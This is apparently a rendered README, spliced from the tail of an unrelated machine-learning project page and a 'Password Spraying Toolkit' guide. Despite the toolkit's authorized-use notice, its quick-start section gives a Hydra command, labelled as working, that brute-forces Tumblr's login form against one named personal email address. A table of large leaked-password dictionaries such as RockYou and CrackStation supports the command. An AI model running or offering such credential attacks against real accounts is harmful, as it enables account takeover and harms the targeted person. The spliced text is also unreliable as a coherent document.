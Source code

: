 ## 📞 Support

If you encounter any issues or have questions:
1. Check the troubleshooting section
2. Review the documentation
3. Open an issue on GitHub
4. Contact the development team

---

**Happy Modeling! 🎉**

*Built with ❤️ for the ML community*

# Password Spraying Toolkit

A comprehensive guide for password spraying attacks using Hydra and enhanced tools.

## ⚠️ Legal Notice

**This toolkit is for AUTHORIZED security testing only.**
- Use only on systems you own or have explicit permission to test
- Respect rate limits and account lockout policies
- Follow responsible disclosure practices
- Comply with all applicable laws and regulations

## 🚀 Quick Start

### Basic Tumblr Attack (Working Command)
```bash
hydra -l jonscottnelson@gmail.com -P comprehensive_final.txt tumblr.com https-post-form "/login:email=^USER^&password=^PASS^:F=Your email or password was incorrect"
```

## 📚 Available Dictionaries

| Dictionary | Size | Description |
|------------|------|-------------|
| `targeted_passwords.txt` | 27 passwords | Custom targeted passwords |
| `comprehensive_final.txt` | 101,019 passwords | Cleaned comprehensive dictionary |
| `comprehensive_clean.txt` | 197,556 passwords | Larger cleaned dictionary |
| `comprehensive.txt` | 202,051 passwords | Full comprehensive dictionary |
| `rockyou_sample.txt` | 100,000 passwords | RockYou sample |
| `rockyou.txt` | 14,344,391 passwords | Full RockYou dictionary |
| `crackstation_sample.txt` | 100,000 passwords | CrackStation sample |
| `crackstation.txt` | 1,212,356,398 passwords | Full CrackStation dictionary |
| `ultimate_dictionary.txt` | 301,046 passwords | Combined mega-dictionary |

